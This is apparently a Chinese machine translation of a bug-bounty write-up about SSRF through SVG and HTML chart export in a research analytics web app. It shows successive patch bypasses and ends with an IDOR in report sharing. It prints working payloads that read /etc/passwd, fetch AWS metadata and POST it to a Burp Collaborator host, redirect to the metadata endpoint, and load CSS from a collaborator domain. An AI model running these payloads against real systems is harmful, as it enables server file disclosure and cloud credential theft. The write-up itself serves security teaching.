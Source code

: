 # SVG SSRFs 和旁路传奇

> 原文：<https://infosecwriteups.com/svg-ssrfs-and-saga-of-bypasses-777e035a17a7?source=collection_archive---------1----------------------->

## 大家好，希望你们一切都好，保持安全。这个博客是关于我最近使用 SVG，HTML 到 PDF SSRF 的经验，以及应用补丁的旁路。

## 介绍

我测试了一个应用程序，这是一个基于网络的分析解决方案，与世界各地的研究机构打交道，分析新的、新兴的研究趋势，并创建报告。

由于应用程序大量处理数据分析，该应用程序具有以饼图、图表、表格等形式显示研究数据的功能。也可以用数据准备报告，并与合作研究人员共享。

这些饼图、报告和图表可以导出为 DOCX、PDF 和 PNG 格式。你看到我要去哪里了吗？

## 剥削

正如我们之前了解到的，研究数据是以图表的形式显示的。下面是相同的截图。

![](img/5f5558c74954e44bfb289e0a900dc7d9.png)

在屏幕截图的右侧，我们看到了 ***“将图表导出为图像”*** 的选项

单击“将图表导出为图像”,我们会看到一个 POST 请求，其中包含图像内容，如下图所示。

![](img/e940419e2a81681875b411801c980e58.png)

我最初只是删除了整个`content`参数，并用

> # h1 注射

该图像是一个 PNG 图像，在用“h1”标记替换内容后，服务器没有任何验证/输出编码，我可以看到 h1 标记被成功注入。这个我截图不多。

由于 HTMLi 工作正常，我注意到许多`svg`标签被发送。我只是使用下面的有效载荷来检索`etc/passwd`的内容。

```
<svg width="500" height="500"  ae ni" href="http://www.w3.org/2000/svg" rel="noopener ugc nofollow" target="_blank">http://www.w3.org/2000/svg" xmlns:xlink="[http://www.w3.org/1999/xlink](http://www.w3.org/1999/xlink)"><foreignObject width="500" height="500"><iframe ae ni" href="http://www.w3.org/1999/xhtml" rel="noopener ugc nofollow" target="_blank">http://www.w3.org/1999/xhtml" src="file:///etc/passwd" width="800" height="850"/></foreignObject></svg>
```

我可以如预期的那样恢复文件内容。

## 已应用补丁

## ##旁路-1

客户对`iframe` `script`等标签进行了编码。所以获取文件内容不再像以前那么简单了。

在这里，我想介绍一个伟大的资源开发 SVG SSRF。

[](https://github.com/allanlw/svg-cheatsheet) [## GitHub - allanlw/SVG-cheatsheet:一个利用服务器端 SVG 处理器的 cheatsheet。

### 利用服务器端 SVG 处理器的说明书。- GitHub - allanlw/svg-cheatsheet:一个利用…

github.com](https://github.com/allanlw/svg-cheatsheet) 

我能够在我的服务器上使用`image`标签和其他使用`src`属性的标签接收回调。

因为 javascript (script)标签是不允许的，所以我的想法是想办法运行 JS。

通过[https://github.com/allanlw/svg-cheatsheet](https://github.com/allanlw/svg-cheatsheet)我了解到“**inline in event JavaScript**”可以运行。

我在[https://github.com/allanlw/svg-cheatsheet#inline-in-event](https://github.com/allanlw/svg-cheatsheet#inline-in-event)使用了有效载荷，内联 JS 确实工作了。

现在我需要一种方法来提取数据。我构建了下面的有效载荷

```
<svg width="100%" height="100%" viewBox="0 0 100 100" ae ni" href="http://www.w3.org/2000/svg" rel="noopener ugc nofollow" target="_blank">http://www.w3.org/2000/svg" xmlns:xlink="[http://www.w3.org/1999/xlink](http://www.w3.org/1999/xlink)"><image xlink:href="[https://google.com/favicon.ico](https://google.com/favicon.ico)" height="20" width="20" onload="fetch('[http://169.254.169.254/latest/meta-data/hostname').then(function](http://169.254.169.254/latest/meta-data/hostname').then(function) (response) {response.text().then(function(text) {var params = text;var http = new XMLHttpRequest();var url = 'https://<>.burpcollaborator.net/';http.open('POST', url, true);http.send(params);})});" /></svg>
```

## 有效载荷是如何工作的？

1.  我们加载 Google 的 favicon，加载成功后，事件处理程序 ***onload*** 被触发。
2.  使用 Fetch API，我们请求 AWS 元数据。
3.  我们将元数据响应存储在“params”参数中。
4.  然后，服务器向 burp collaborator 服务器发出 POST 请求，将元数据作为 POST 主体。证据见所附图片。

![](img/93fd4445cb6fd723e0ef68da0297e3d0.png)

## ##旁路-2

客户现在已经实现了阻止 javascript 的修复。此外，如果你记得有输出编码应用于标签，如`script` `iframe`等。

然后我读了这个有趣的旁路——[https://twitter.com/kunalp94/status/1502527605836173312](https://twitter.com/kunalp94/status/1502527605836173312)

我使用了同样的`meta`标签，结果很成功。分享下面的有效载荷

```
<meta http-equiv="refresh" content="0;url=http://169.254.169.254" />
```

## ##旁路-3

客户应用了更多的输出编码。我当时别无选择，然后想起了纳哈姆西的伟大演讲。下面的视频

在这里，Ben 谈到了在`style`标签(CSS)处的缺失验证。我也试过。

我尝试了`style`、`import`、`link`标签。我成功地得到了复试机会。

我使用了下面的有效载荷(HTML 在`style`标签中),它工作了！！

```
<style><h1>h1taginjection</h1><iframe ae ni" href="http://www.w3.org/1999/xhtml" rel="noopener ugc nofollow" target="_blank">http://www.w3.org/1999/xhtml" src="file:///etc/passwd" width="800" height="850"/>
    [@import](http://twitter.com/import) url([http://ta79rlzq77p2kdoak91nqryxlorff4.burpcollaborator.net/import.css](http://ta79rlzq77p2kdoak91nqryxlorff4.burpcollaborator.net/import.css));</style>
```

## ##最终修复

在又一个补丁和更多的编码之后，我尝试了各种标签，但没有成功。

## 向 SSRF DOCX 报告

与上述攻击类似,“导出到 DOCX 的报告”也容易受到攻击。

## 我擅长分享报告

此外，还存在一个简单的 bug，报告可以与合作研究人员共享。有通过电子邮件邀请用户的功能，还可以设置权限，如仅查看和编辑。

该请求包含数字形式的`reportID`和`permission`、`email`。

我更改了`reportID`，并能够邀请我参加其他研究人员的报告。

这个博客到此为止。

希望你能从这个博客中获得一些新的东西。

普瑞瑟姆。